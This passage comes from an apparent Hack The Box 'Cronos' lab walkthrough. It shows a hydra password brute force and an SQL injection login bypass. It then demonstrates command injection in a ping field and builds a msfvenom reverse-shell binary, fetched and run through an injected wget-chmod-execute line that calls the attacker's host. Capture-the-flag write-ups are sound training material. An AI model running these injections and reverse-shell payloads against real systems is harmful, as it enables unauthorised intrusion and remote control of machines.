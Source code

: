 ```bash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
# assuming the user "admin" exists ...
hydra -vV -f -I\
  -l cronos \
  -P ./rockyou.txt \
  admin.cronos.htb \
  http-post-form \
  "/index.php:username=^USER^&password=^PASS^:invalid"
```

Next to test is some simple SQL injection for a login bypass:

- `" or 1=1#` as the username and `bubba` as the password does not work :disappointed:
- `' or 1=1#` as the username and `bubba` as the password works :happy:

The page at `http://admin.cronos.htb` now becomes:

![admin_panel](./cronos/admin_panel.png)

This seems like a simple remote command panel. Setting the dropdown to Ping and adding in a simple command line escape input `127.0.0.1 && whoami` returns the following:

![whoami](./cronos/whoami.png)

Nice! this can be easily used for a reverse shell with the following payload after changing `whoami` to `which wget` in order to verify the target has that remote download utility:

```bash
# generate the payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf > bubba.elf
# host the payload on port 8080
python3 -m http.server 8080
# wait for the callback
nc -nvlp 6969
# enter the following command into the admin panel at http://admin.cronos.htb
127.0.0.1 && wget http://10.10.14.23:8080/bubba.elf -P /tmp/ && chmod +x /tmp/bubba.elf && /tmp/bubba.elf &
```